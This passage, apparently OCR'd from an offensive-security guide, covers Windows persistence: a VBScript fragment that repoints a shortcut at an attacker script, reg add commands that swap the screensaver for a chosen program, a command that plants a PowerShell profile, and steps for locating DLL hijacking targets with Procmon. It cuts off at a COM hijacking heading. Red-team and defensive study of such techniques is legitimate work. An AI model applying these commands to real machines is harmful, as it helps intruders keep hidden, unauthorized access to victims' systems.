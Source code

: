 ```java
File.Write "oShell.Run " & chr(34) & oShellLink.TargetPath & " " & oShellLink.Arguments & chr(34) & vbCrLf
File.Close

oShellLink.TargetPath = executed_script
oShellLink.IconLocation = origTarget & ", 0"
oShellLink.WorkingDirectory = origDir
oShellLink.WindowStyle = 7
oShellLink.Save

```

## ScreenSavers

This technique is modifying "or adding if not exist" the value of the screen saver key in the registry to be our app so when the screen saver is triggered that will launch the app.
we can do that using the following commands...

    reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "SCRNSAVE.EXE" /t REG_SZ /d "app path" /f
    reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v "ScreenSaveTimeOut" /t REG_SZ /d "10" /f

## Powershell Profile

This technique needs PowerShell to run something to be triggered.
In PowerShell, profiles are the settings that are saved in a specific folder which is run each time PowerShell is executed.
you can do that by the following command...

      echo "app path" > %HOMEPATH%"\Documents\windowspowershell\profile.ps1

## DLL Hijacking

Once you are in the device then you know the applications that are presented on this device, one way to find a way to persist in the machine is to test the already persistent apps used on the machine on your own machine looking for DLL hijacking vulnerabilities.

So What's DLL hijacking vulnerability?!

Once an application starts it tries to load its needed libraries, the vulnerability here comes when the app search order is looking for that library in a place we control before the actual place of the library and we can easily spot that using the Sysinternals tool "Procmon" using a good filter will make the process goes quickly."Don't forget to implement the actual functionality needed by the application on your malicious dll to prevent the app from crashing".

    Tip: You can filter the procmon search to automatically just show you the dlls that were searched and not found.

## COM Hijacking

Component Object Model (COM) COM is a platform-independent, distributed, object-oriented system for creating binary software components that can interact.
